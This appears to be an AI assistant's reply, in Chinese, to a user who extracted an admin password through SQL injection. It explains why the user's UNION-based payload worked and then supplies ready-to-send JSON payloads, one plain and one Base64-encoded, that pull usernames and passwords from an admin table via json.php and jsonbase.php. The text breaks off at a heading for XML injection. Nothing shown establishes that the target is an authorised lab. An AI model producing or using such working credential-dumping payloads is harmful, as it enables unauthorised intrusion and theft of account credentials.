让我重新分析一下注入点，并提供更准确的SQL注入语句。</think># SQL注入修正方案与分析

根据您提供的成功案例截图和反馈，我发现我之前的SQL注入语句确实存在问题。您已经成功使用以下注入语句获取到了admin的密码：

```json
{
    "id": 0,
    "keyword": "1%' union select 1,username,password from admin#"
}
```

## 成功注入原因分析

1. **闭合匹配**：您使用了`1%'`作为开始，其中`%`是SQL中的通配符，后面的单引号`'`成功闭合了SQL语句中的引号，这是之前我的语句没有正确处理的部分。

2. **注释符使用**：您使用了`#`作为注释符，成功注释掉了后续的SQL语句部分，避免了语法错误。

3. **字段数量匹配**：您选择了正确的字段数量（3个字段：1, username, password），与news表中的返回列数相匹配。

4. **目标表准确**：您直接指向了`admin`表，这符合数据库结构中的实际表名。

## 修正后的SQL注入语句

根据您的成功经验，以下是针对不同文件的修正后的SQL注入语句：

### 1. 针对json.php的SQL注入

```json
{
    "id": 0,
    "keyword": "1%' union select 1,username,password from admin#"
}
```

### 2. 针对jsonbase.php的SQL注入（需要Base64编码）

原始SQL注入语句：
```
1%' union select 1,username,password from admin#
```

Base64编码后：
```
MSUnIHVuaW9uIHNlbGVjdCAxLHVzZXJuYW1lLHBhc3N3b3JkIGZyb20gYWRtaW4j
```

JSON请求：
```json
{
    "id": 0,
    "keyword": "MSUnIHVuaW9uIHNlbGVjdCAxLHVzZXJuYW1lLHBhc3N3b3JkIGZyb20gYWRtaW4j"
}
```

### 3. 针对xml.php的XML注入
